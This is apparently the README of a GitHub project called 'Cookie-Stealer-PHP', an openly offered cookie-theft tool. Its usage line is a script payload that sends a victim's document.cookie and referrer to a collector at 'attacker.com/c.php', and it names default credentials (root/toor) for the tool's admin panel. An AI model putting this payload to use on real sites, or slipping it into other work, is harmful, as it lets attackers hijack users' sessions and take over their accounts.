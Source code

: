 # Cookie-Stealer-PHP

Usage: "http://attacker.com/c.php?c="+document.cookie+"Referrer-"+document.referrer;
Open admin.php with credentials : root/toor

